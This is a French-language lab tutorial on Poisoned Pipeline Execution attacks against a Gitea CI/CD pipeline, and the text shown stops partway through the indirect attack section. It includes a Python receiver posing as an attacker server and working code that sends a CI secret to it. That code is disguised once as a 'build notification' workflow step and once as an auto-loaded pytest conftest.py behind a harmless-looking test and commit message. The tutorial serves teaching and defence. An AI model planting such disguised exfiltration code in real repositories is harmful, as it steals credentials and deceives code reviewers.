## Introduction

Dans les précédents articles, nous avons étudié plusieurs risques liés à la chaîne d'approvisionnement logicielle et aux pipelines CI/CD : mauvaises configurations des permissions, compromission des workflows, dépendances malveillantes ou encore abus des mécanismes de publication.

Nous avons également commencé à mettre en place des protections : règles de protection des branches, approbations obligatoires et `CODEOWNERS` pour encadrer les modifications des workflows.

Mais une question demeure : **que se passe-t-il lorsqu'un attaquant parvient à faire exécuter du code arbitraire par le pipeline sans nécessairement modifier directement son workflow ?**

C'est précisément le sujet du *Poisoned Pipeline Execution* (PPE).

Le PPE désigne une famille d'attaques dans lesquelles un attaquant détourne l'exécution d'un pipeline CI/CD pour y faire exécuter du code qu'il contrôle. Selon le scénario, il peut s'agir d'une modification directe du workflow, d'un fichier exécuté indirectement par celui-ci ou encore du code provenant d'un dépôt externe.

L'intérêt de cette attaque est qu'elle ne nécessite pas systématiquement de compromettre le serveur CI/CD ou de contourner les protections Git. Il suffit parfois de modifier un élément que le pipeline exécute automatiquement.

Dans ce laboratoire, nous allons étudier trois variantes :

- **Direct PPE** : modification directe du workflow pour introduire une étape malveillante.
- **Indirect PPE** : modification d'un fichier exécuté par le pipeline, sans toucher au workflow.
- **Public / Third-party PPE** : exploitation d'un workflow déclenché par une Pull Request provenant d'un fork externe.

Nous terminerons par plusieurs mesures de durcissement afin de réduire les possibilités d'exploitation.

## Environnement du laboratoire

Nous repartons de l'environnement utilisé dans les précédents TP.

Le dépôt `dsg-app`, hébergé sur notre instance Gitea, appartient à l'organisation `dsg-solutions`. Les protections mises en place lors du TP SEC-1 sont conservées :

- Protection de la branche principale.
- Approbation obligatoire avant fusion.
- `CODEOWNERS` sur les fichiers de workflow.
- Protection des modifications des fichiers sensibles.

L'objectif n'est pas de supprimer ces protections pour faciliter les attaques. Au contraire, nous allons volontairement les conserver afin de montrer leurs limites.

Nous utiliserons quatre identités :

| Compte | Rôle |
| --- | --- |
| `dev.antony` | Contributeur interne et auteur des PR |
| `leadev.william` | Reviewer chargé des approbations |
| Compte interne supplémentaire | Identité déjà utilisée dans les précédents TP |
| Nouveau compte externe | Contributeur extérieur à l'organisation |

Enfin, nous allons ajouter un composant à notre laboratoire : un petit serveur HTTP qui jouera le rôle du serveur contrôlé par l'attaquant.

Ce serveur permettra de vérifier concrètement si une valeur sensible a quitté le runner CI/CD. Nous ne nous contenterons donc pas d'observer une commande dans les logs : nous chercherons à démontrer l'impact réel de l'exécution.

**Important :** nous utiliserons exclusivement un secret fictif, créé pour le laboratoire. Aucune véritable information d'authentification ne doit être utilisée.

## Préparation du serveur de réception

Avant de commencer les attaques, nous devons disposer d'un point de réception capable de collecter les données envoyées par le pipeline.

Nous allons créer un petit serveur HTTP en Python. Son rôle est volontairement limité : écouter les requêtes POST et afficher leur contenu dans la console.

Créons un fichier `receiver.py` :

```
from http.server import BaseHTTPRequestHandler, HTTPServer

class Receiver(BaseHTTPRequestHandler):
    def do_POST(self):
        length = int(self.headers.get("Content-Length", 0))
        body = self.rfile.read(length)

        print("\n[+] Nouvelle donnée reçue")
        print(f"[+] Chemin : {self.path}")
        print(f"[+] Contenu : {body.decode(errors='replace')}")

        self.send_response(200)
        self.end_headers()
        self.wfile.write(b"received")

server = HTTPServer(("0.0.0.0", 8080), Receiver)

print("[*] PPE receiver listening on port 8080")
server.serve_forever()
```

Nous pouvons ensuite démarrer le serveur depuis le terminal:

```
python receiver.py
```

Le serveur écoute maintenant sur le port `8080`.

Dans notre environnement Docker Desktop sous Windows, le runner pourra généralement joindre le service via `host.docker.internal` :

```
http://host.docker.internal:8080/collect
```

Cette adresse dépend de la configuration réseau du runner. Si celui-ci ne parvient pas à joindre le service, il faudra vérifier son réseau Docker et adapter l'adresse utilisée.

Nous disposons maintenant d'un récepteur contrôlé pour les démonstrations.

## Préparation du secret Actions

Nous allons maintenant ajouter un secret au dépôt `dsg-app`.



Dans les paramètres du dépôt, accédons à la section des secrets Actions et créons :

```
Nom : HARBOR_PASSWORD
Valeur : PPE-LAB-HARBOR-2026-CHANGE-ME
```



Cette valeur est volontairement fictive. Elle représente un mot de passe qui pourrait être utilisé par un pipeline pour s'authentifier auprès d'un registre privé comme Harbor.

Nous utiliserons ce secret dans les démonstrations afin de matérialiser l'impact d'une compromission du pipeline.

Il faut toutefois garder en tête un point important : **la présence d'un secret dans les paramètres du dépôt ne signifie pas que tous les processus exécutés par le runner peuvent automatiquement le lire.** Il faut que le workflow le référence et le transmette au job ou à l'étape concernée.

C'est précisément ce que nous allons observer dans les différentes variantes.

## Étape 1 - Ajouter un contributeur externe

Jusqu'ici, nos manipulations ont été réalisées avec des comptes internes à l'organisation `dsg-solutions`.

Pour étudier le scénario Public PPE, nous avons besoin d'une identité extérieure à cette organisation.

Créons donc un quatrième compte Gitea. Celui-ci ne doit disposer d'aucun rôle dans `dsg-solutions` et ne doit avoir aucune collaboration directe sur `dsg-app`.

Nous allons ensuite vérifier les possibilités offertes à ce compte.

Si le dépôt est public, le compte externe doit pouvoir consulter son contenu. Il doit également pouvoir le forker si cette fonctionnalité est activée sur l'instance.

En revanche, il ne doit pas pouvoir pousser directement une modification sur le dépôt original.

Nous obtenons ainsi une situation proche de celle d'un projet open source : n'importe quel contributeur peut proposer une modification, mais seul un membre autorisé peut intervenir directement sur le dépôt principal.

### Création de l'utilisateur

Nous allons nous rendre sur la page de création de l'utilisateur



Et nous allons créer l'utilisateur `ext-alice`



## Attaque 1 - Direct PPE

### Comprendre le scénario

La première variante est la plus directe : l'attaquant modifie lui-même le workflow afin d'y introduire une étape qui sera exécutée par le runner.

Dans notre cas, `dev.antony` est un contributeur interne légitime. Il dispose des droits nécessaires pour proposer une modification du dépôt, mais les protections de branche imposent toujours une approbation avant fusion.

Le scénario est intéressant parce que le changement peut être présenté comme une évolution fonctionnelle parfaitement normale.

Nous allons donc simuler l'ajout d'une étape de notification de fin de build. Derrière cette apparence, cette étape transmettra la valeur du secret `HARBOR_PASSWORD` à notre serveur de réception.

### Préparer la Pull Request

Avec `dev.antony`, créons une branche :

```bash
git checkout -b feature/build-notification
```

Ouvrons le `workflow` existant dans `.gitea/workflows/` et ajoutons une étape de notification.

Pour la démonstration, le payload sera le suivant :

```python
- name: Build completion notification
  env:
    HARBOR_PASSWORD: ${{ secrets.HARBOR_PASSWORD }}
  run: |
    python - <<'PY'
    import os
    import json
    import urllib.request

    secret = os.environ.get("HARBOR_PASSWORD")

    if secret:
        data = json.dumps({
            "event": "build_completed",
            "harbor_password": secret
        }).encode()

        request = urllib.request.Request(
            "http://host.docker.internal:8080/collect",
            data=data,
            headers={"Content-Type": "application/json"},
            method="POST"
        )

        urllib.request.urlopen(request)
    PY
```



Dans un environnement réel, cette étape pourrait être dissimulée dans un changement plus large : ajout d'une notification, intégration d'un outil tiers ou amélioration du reporting.

L'idée est de montrer qu'un changement qui paraît anodin peut avoir un effet bien différent de celui annoncé.

Une fois la modification effectuée, nous pouvons créer notre commit et pousser la branche :

```bash
git add .gitea/workflows/
git commit -m "Add build completion notification"
git push origin feature/build-notification
```



Ouvrons ensuite une Pull Request vers la branche principale.





Il faut maintenant que `leadev.william` , accepte la revue.



### Observer le processus de revue

Notre protection `CODEOWNERS` doit toujours s'appliquer au workflow.

La PR doit donc nécessiter l'approbation de `leadev.william` avant de pouvoir être fusionnée.

L'objectif de cette démonstration est d'observer la capacité de la revue humaine à identifier l'effet réel de la modification.

Faisons examiner la PR par le reviewer, sans lui signaler la présence du payload. Il doit effectuer sa revue selon le processus habituel du laboratoire.

Si la modification est approuvée puis fusionnée, le workflow est exécuté.

#### Acceptation de la pull request

En tant que `leadev-william` , nous allons accepter la pull request.





Maintenant, le workflow devrait s'exécuter, et nous pouvons voir que le job s'est déroulé sans problème.



### Vérifier l'exfiltration du secret

Revenons maintenant sur la console du serveur de réception.

Si le job a bien référencé le secret et que le runner a pu joindre le serveur, nous devons observer une nouvelle requête POST contenant la valeur fictive de `HARBOR_PASSWORD`.

Exemple de résultat attendu :

```
[*] PPE receiver listening on port 8080

[+] Nouvelle donnée reçue
[+] Chemin : /collect
[+] Contenu : {
  "event": "build_completed",
  "harbor_password": "PPE-LAB-HARBOR-2026-CHANGE-ME"
}
```

Nous venons de démontrer qu'une modification approuvée du workflow peut permettre à du code ajouté par un contributeur interne d'accéder à un secret et de le transmettre à un système extérieur.

Le point essentiel n'est donc pas uniquement que la PR ait été fusionnée : c'est que **la revue humaine a validé la forme du changement sans nécessairement en identifier l'effet réel**.



## Attaque 2 - Indirect PPE

### Comprendre le scénario

Dans le premier scénario, nous avons directement modifié le workflow.

Mais cette approche présente une limite : les modifications de `.gitea/workflows/**` sont surveillées par nos règles `CODEOWNERS`.

Peut-on obtenir un résultat similaire sans modifier le moindre fichier de workflow ?

C'est tout l'intérêt de l'`Indirect PPE`.

Un pipeline ne se limite pas aux instructions présentes dans son fichier `YAML`. Il exécute également des scripts, des commandes, des tests et des outils définis dans le dépôt.

Si l'un de ces éléments est modifiable sans déclencher la même exigence de revue, il peut devenir un point d'entrée.

Dans notre projet Python, nous allons utiliser `conftest.py`.

Ce fichier est automatiquement chargé par pytest lors de la découverte des tests. Il peut donc contenir du code exécuté avant même qu'un test individuel ne soit lancé.

### Identifier un fichier exécuté indirectement

Vérifions d'abord que notre workflow exécute bien les tests avec pytest.

Nous devons retrouver une commande de ce type :

```yaml
- name: Run tests
  run: pytest
```



Si c'est bien le cas, nous pouvons ajouter un fichier `conftest.py` à la racine du projet.

Pour cette démonstration, nous allons également transmettre le secret au niveau du job. Cela permet de simuler une configuration dans laquelle le contexte de build expose une information sensible à l'ensemble des processus lancés pendant les tests.

Par exemple :

```yaml
jobs:
  build:
    runs-on: ubuntu-latest
    env:
      HARBOR_PASSWORD: ${{ secrets.HARBOR_PASSWORD }}
```



Cette configuration est volontairement vulnérable : le secret est disponible dans l'environnement de toutes les étapes du job, y compris les processus de test.

### Introduire le code dans conftest.py

Avec `dev.antony`, créons un fichier `conftest.py` :

```python
import os
import json
import urllib.request

secret = os.environ.get("HARBOR_PASSWORD")

if secret:
    data = json.dumps({
        "event": "pytest_collection",
        "harbor_password": secret
    }).encode()

    request = urllib.request.Request(
        "http://host.docker.internal:8080/collect",
        data=data,
        headers={"Content-Type": "application/json"},
        method="POST"
    )

    urllib.request.urlopen(request)
```



Ce code est exécuté lors du chargement de la configuration pytest.

Il n'est donc pas nécessaire de modifier le workflow ou d'ajouter une étape supplémentaire.

Créons maintenant un test qui semble parfaitement anodin :

```python
def test_basic_operation():
    assert 1 + 1 == 2
```

Nous pouvons ensuite pousser ces modifications sur une nouvelle branche :

```bash
git checkout -b feature/add-basic-test
git add .
git commit -m "Add basic test coverage"
git push origin feature/add-basic-test
```

Ouvrons une Pull Request vers la branche principale.

### Observer l'exécution

Cette fois, notre PR ne modifie aucun fichier présent dans `.gitea/workflows/**`.

La protection spécifique aux workflows ne devrait donc pas déclencher d'exigence de revue supplémentaire liée à ce chemin.

